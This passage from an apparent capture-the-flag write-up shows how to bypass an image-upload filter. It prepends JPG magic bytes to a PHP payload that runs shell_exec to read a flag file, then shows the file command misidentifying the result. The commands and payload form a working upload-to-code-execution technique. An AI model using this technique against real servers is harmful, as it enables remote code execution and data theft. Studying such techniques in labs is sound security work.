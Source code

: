 Uploading a different file type results in an error.

![RCE Cornucopia](/img/rce-cornucopia/rce6-002.png)

We can infer that the server is actually looking at the file because the file name and extension don't seem to matter at all. A JPG with a `.php` extension is accepted, and a PHP file with a `.jpg` extension is rejected.

The most straightforward way of determining the type of a file is looking at the [magic number](https://en.wikipedia.org/wiki/List_of_file_signatures). For a JPG the first 4 bytes is generally sufficient.

Take the first 4 bytes of a valid JPG and copy into it's own file.

```
root@kali ~/A/corn# dd if=test.jpg of=jpgmagicnum.dat bs=1 count=4
4+0 records in
4+0 records out
4 bytes transferred in 0.000125 secs (31957 bytes/sec)
```

`cat` the magic number plus the malicious PHP payload into a new file. Why use a PHP file extension and not JPG? We found earlier that it doesn't matter as far as the file being rejected or not, but it might matter in terms of whether the server will decide to execute our file as PHP.

```
root@kali ~/A/corn# cat flag.php 
<?php print shell_exec('cat /tmp/flag.txt'); ?>
root@kali ~/A/corn# cat jpgmagicnum.dat flag.jpg > pwn.php
```

The magic number in front of our PHP payload is enough to fool the `file` command locally.

```
root@kali ~/A/corn# cat pwn.php 
????<?php print shell_exec('cat /tmp/flag.txt'); ?>
root@kali ~/A/corn# file pwn.php 
pwn.php: JPEG image data
```
